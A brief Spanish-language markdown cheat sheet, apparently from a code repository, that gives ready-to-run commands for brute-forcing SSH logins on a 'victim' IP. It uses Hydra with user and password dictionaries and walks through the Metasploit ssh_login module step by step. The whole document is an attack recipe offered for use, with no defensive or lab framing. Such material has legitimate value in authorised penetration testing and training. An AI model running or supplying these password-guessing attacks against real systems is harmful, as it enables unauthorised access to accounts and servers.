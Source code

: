 # HYDRA
## Conociendo usuario
```bash
hydra -l <"Usuario"> -P <"Diccionario de contraseñas"> ssh://<"IP VICTIMA">
```

## Usuario Desconocido
```bash
hydra -L <"Diccionario de usuarios"> -P <"Diccionario de contraseñas"> ssh://<"IP VICTIMA">
```

# Metasploit

```bash
search ssh_login
```

```bash
use 0
```

```bash
set RHOST <"IP Victima">
```

## Conociendo Usuario

```bash
set USERNAME <"Usuario">
```
## Desconociendo Usuario

```bash
set USERNAME_FILE <"Diccionario de Usuarios">
```


```bash
set PASS_FILE <"Diccionario de Contraseñas">
```

```bash
run
```